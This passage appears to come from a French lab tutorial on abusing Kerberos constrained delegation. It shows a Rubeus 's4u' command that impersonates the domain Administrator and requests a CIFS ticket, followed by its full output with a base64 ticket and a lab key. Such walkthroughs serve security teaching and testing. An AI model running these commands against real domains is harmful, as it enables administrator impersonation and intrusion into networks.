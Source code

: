 ```cmd
  KeyType               :  rc4_hmac
  Base64(key)           :  +tOIJhvW49dlmW3XdmSWGw==
```

Ensuite ce TGT va nous permettre d'initier le **S4U2Self**. Ensuite interviendra le **S4U2Proxy** comme expliqué précédemment pour le service *CIFS* (*voir /altservice:cifs*) :
```cmd
C:\tools> C:\tools\Rubeus\Rubeus-master\Rubeus\bin\Debug\rubeus.exe s4u /ticket:srv.tgt /msdsspn:TIME/DC /impersonateuser:Administrator /domain:windomain.local /altservice:CIFS /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0

[*] Action: S4U

[*] Action: S4U

[*] Using domain controller: dc.windomain.local (192.168.38.102)
[*] Building S4U2self request for: 'srv$@WINDOMAIN.LOCAL'
[*] Sending S4U2self request
[+] S4U2self success!
[*] Got a TGS for 'Administrator@WINDOMAIN.LOCAL' to 'srv$@WINDOMAIN.LOCAL'
[*] base64(ticket.kirbi):

      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
      QUlOLkxPQ0FMqREwD6ADAgEBoQgwBhsEc3J2JA==

[+] Ticket successfully imported!
[*] Impersonating user 'Administrator' to target SPN 'TIME/DC'
[*]   Final ticket will be for the alternate service 'cifs'
[*] Using domain controller: dc.windomain.local (192.168.38.102)
[*] Building S4U2proxy request for service: 'TIME/DC'
[*] Sending S4U2proxy request
[+] S4U2proxy success!
[*] Substituting alternative service name 'cifs'
```